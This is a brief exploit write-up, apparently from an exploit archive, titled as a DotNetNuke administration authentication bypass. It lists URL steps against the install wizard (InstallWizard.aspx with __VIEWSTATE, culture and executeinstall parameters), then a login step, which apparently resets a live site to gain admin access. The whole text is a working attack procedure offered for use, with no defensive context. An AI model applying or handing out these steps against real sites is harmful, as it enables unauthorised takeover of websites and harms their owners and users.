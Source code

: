 # Exploit Title: DotNetNuke Administration Authentication Bypass

Step 1: /Install/InstallWizard.aspx?__VIEWSTATE=

Step 2: Fill all infor

Step 3: CLick continue if it don't work, just add &culture=en-US&executeinstall

or you get any error ex: 500,... just removing __VIEWSTATE=

Install/InstallWizard.aspx?culture=en-US&executeinstall

Step 4: Login /Home/tabid/36/ctl/Login/Default.aspx


